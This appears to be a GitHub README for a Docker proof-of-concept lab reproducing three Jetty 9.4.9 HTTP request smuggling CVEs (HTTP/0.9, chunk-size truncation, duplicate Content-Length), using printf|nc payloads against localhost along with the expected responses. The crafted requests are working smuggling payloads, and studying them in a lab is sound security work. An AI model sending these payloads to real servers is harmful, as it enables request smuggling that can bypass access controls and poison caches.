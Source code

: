 #	Jetty - Http Smuggling

##	Composition

jetty 9.4.9



##	Usage

Only for POC.

###	build

```bash
docker-compose up
```

The jetty server will on the port 9014.



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 200 OK
```

1 HTTP code 200 means all right! 

Enjoy!



###	reproduce

####	CVE-2017-7656 HTTP/0.9

```bash
printf 'GET /?test=4564 HTTP/0.9\r\n\r\n'|nc -q 1 127.0.0.1 9014
```

You will get an http/0.9 response. No headers is right. HTTP/0.9 responses don't have headers.

```html
<html>
<head>
<title>Sample "Hello, World" Application</title>
</head>
<body bgcolor=white>

<table border="0">
<tr>
<td>
<img src="images/tomcat.gif">
</td>
<td>
<h1>Sample "Hello, World" Application</h1>
<p>This is the home page for a sample application used to illustrate the
source directory organization of a web application utilizing the principles
outlined in the Application Developer's Guide.
</td>
</tr>
</table>

<p>To prove that they work, you can execute either of the following links:
<ul>
<li>To a <a href="hello.jsp">JSP page</a>.
<li>To a <a href="hello">servlet</a>.
</ul>

</body>
</html>
```



####	CVE-2017-7657 Chunk size attribute truncation

```bash
printf 'POST /?test=4973 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'100000000\r\n'\
'\r\n'\
'POST /?test=4974 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc 127.0.0.1 9014|grep "HTTP/1.1"
```

You will get two 200 codes. 

Try this:

```bash
printf 'POST /?test=4975 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'1ff00000008\r\n'\
'abcdefgh\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'POST /?test=4976 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 9014|grep "HTTP/1.1"
```

You will get two 200 codes, too.

Jetty will cut the long size to short size. For example, the first time we tried, size is 100000000. It will be treated as 0. The second time we tried, size is 1ff00000008. It will be treated as 8.

So both of these, we will get two responses.



####	CVE-2017-7658 Double Content-Length

```bash
printf 'GET /?test=4966 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 45\r\n'\
'Content-Length: 0\r\n'\
'\r\n'\
'GET /?test=4967 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9014
```

We will get

```
HTTP/1.1 400 Duplicate Content-Length
Content-Type: text/html;charset=iso-8859-1
Content-Length: 67
Connection: close
Server: Jetty(9.4.9.v20180320)

<h1>Bad Message 400</h1><pre>reason: Duplicate Content-Length</pre>
```

But when we try this:

```bash
printf 'GET /?test=4968 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 0\r\n'\
'Content-Length: 45\r\n'\
'\r\n'\
'GET /?test=4969 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9014
```

We will get a 200 code. So let's smuggle.

```bash
printf 'GET /?test=4970 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 0\r\n'\
'Content-Length: 45\r\n'\
'\r\n'\
'GET /?test=4971 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'GET /?test=4972 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9014
```

We will get two 200 codes.



#	Reference

https://regilero.github.io/english/security/2019/04/24/security_jetty_http_smuggling/#toc3

https://blog.zeddyu.info/2019/12/05/HTTP-Smuggling/